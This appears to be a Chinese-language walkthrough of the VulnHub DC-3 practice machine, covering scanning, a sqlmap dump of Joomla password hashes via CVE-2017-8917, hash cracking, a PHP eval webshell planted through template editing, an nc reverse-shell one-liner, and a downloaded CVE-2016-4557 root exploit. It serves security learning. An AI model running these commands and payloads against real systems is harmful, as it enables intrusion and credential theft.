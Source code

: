 # DC3
- [参考](https://blog.csdn.net/qq_42133828/article/details/99680059)

- [学习](https://www.vulnhub.com/entry/dc-3,312/)

- [下载](https://download.vulnhub.com/dc/DC-3.zip)

## 扫描

```
nmap -sP 192.168.31.0/24
```
![](img/1.png)

```
nmap -sT -sV -T5 -A -p- 192.168.31.205  //继续使用nmap获取详细信息

```
![](img/7.png)


## 开始整活

目标只开放了80端口，访问，发现`提示`，
只有一个入口，让我们提权为 `root` 用户.

![](img/2.png)

继续尝试获取目标信息，对目标靶场网页进行目录爆破 在此鸣谢 
语冰提供的[字典](https://github.com/No-Github/AboutSecurity/tree/master/%E5%AD%97%E5%85%B8) 

发现administrator目录，访问得到Joomla管理后台。

![](img/3.png)


通过安装`joomscan` 获取详细信息以及`版本号`

安装:
```
git clone https://github.com/rezasp/joomscan.git

cd joomscan

perl joomscan.pl
```
![](img/8.png)

```
joomscan -u http://192.168.31.205
```

google搜索得知，joomla3.7 版本存在 sql注入漏洞 [(CVE-2017-8917)](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8917)

[复现方法](https://www.jianshu.com/p/76451380b129)

或者使用kali 进行搜索

```
searchsploit joomla |grep 3.7
```
![](img/4.png)


使用 sqlmap 

```
sqlmap -u "http://192.168.31.205/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D joomladb --tables -T '#__users' -C name,password --dump
```
![](img/9.png)



或者使用大佬写的 [joomblash.py](joomblash.md) 脚本(python2) 


得到管理员帐户admin，密码已hash加密 ，为了登录admin，我们首先要识别哈希值类型，然后使用hashcat暴力破解。

![](img/5.png)

保存到 1.txt中,首先识别哈希值类型
```
hashid \root\1.txt
```
![](img/6.png)

密码是 `bcrypt` 加密的

然后使用hashcat暴力破解。感谢[鸭王](https://github.com/TheKingOfDuck/fuzzDicts/blob/master/paramDict/parameter.txt)的字典(虽然没有密码但是这个fuzz字典还是推荐一下)

```
hashcat -m 3200 -a 0 -d 1 --force 1.txt fuzz.txt
```

很遗憾没跑出来，google一下后发现 密码是 `snoopy` (snoopy dogg) 成功登陆到后台.

![](img/10.png)

Joomla后台可编辑模板，修改源码

![](img/11.png)

在此处随便找一个模板即可
然后 创建一个 php 写入一句话，蚁剑成功连接

```php
<?php @eval($_POST[1]);?>
```
![](img/12.png)

现在已经拿到一个webshell，开始尝试提权。

## 提权

写个反弹一个shell 到kali上
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.141.134 4545 >/tmp/f
```
```
nc -lvp 4545
```
![](img/13.png)
(这里排除了半天发现是一脚网线电脑直接断网了 那没事了)


最后总算也是连上了，查看一下靶机版本(忘了截了)
```
lsb_release -a
uname -a
```

kali 搜索 主机Ubuntu 16.04  有关提权漏洞，

```
searchsploit ubuntu 16.04
```
![](img/14.png)

存在提权漏洞 CVE-2016-4557
寻找[EXP](https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits)


```
apt install libfuse-dev
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
```

把EXP传给靶机。将里面的 `exploit.tar` 上传，解压运行

```
tar -xvf exploit.tar
./compile.sh
./doubleput
```
注： 运行时会有warning。而且使用的是拒绝服务漏洞提权，会有点慢（我都以为电脑卡死了）等就完事了。

最后
```
cd /root
ls
the-flag.txt
cat the-flag.txt
```
![](img/15.png)

## 总结

> 该靶场为未能完成 总结写的就很呆

该靶场大致要点为：
- joomscan 漏洞扫描工具使用
- CVE-2017-8917 SQL 注入漏洞
- john 跑 hash
- `CVE-2016-4557 提权漏洞`

更新笔记：
- 渗透工具
- 可利用漏洞